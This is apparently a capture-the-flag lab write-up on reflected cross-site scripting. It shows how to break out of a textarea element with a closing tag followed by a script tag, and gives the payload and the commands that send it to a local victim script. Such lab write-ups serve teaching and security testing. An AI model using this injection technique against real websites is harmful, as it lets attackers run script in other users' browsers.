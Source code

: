 # Reflected XSS - Textarea Context Escape

## Challenge Summary
This level explores **contextual XSS**, where our payload is rendered *inside a `<textarea>` element*. By default, browsers treat content in a textarea as plain text, so scripts won't execute unless we **break out** of that context.

The goal is to execute `alert("PWNED")` in the victim's browser.

## Vulnerable Code
The server inserts user-controlled input directly inside a `<textarea>`:

```html
<textarea name=msg>{user_input}</textarea>
````

## Exploitation Logic

To break out of the `textarea`:

1. Inject `</textarea>` to end the tag.
2. Follow it with a `<script>` tag containing our payload.

### Payload:

```html
</textarea><script>alert("PWNED")</script>
```

## Execution

Trigger the victim script with:

```bash
/challenge/victim 'http://challenge.localhost:80/?msg=</textarea><script>alert("PWNED")</script>'
```

Or URL-encoded:

```bash
/challenge/victim 'http://challenge.localhost:80/?msg=%3C%2Ftextarea%3E%3Cscript%3Ealert(%22PWNED%22)%3C%2Fscript%3E'
```

## Result

The victim browser will interpret and run the injected JavaScript, showing the alert and granting the flag.
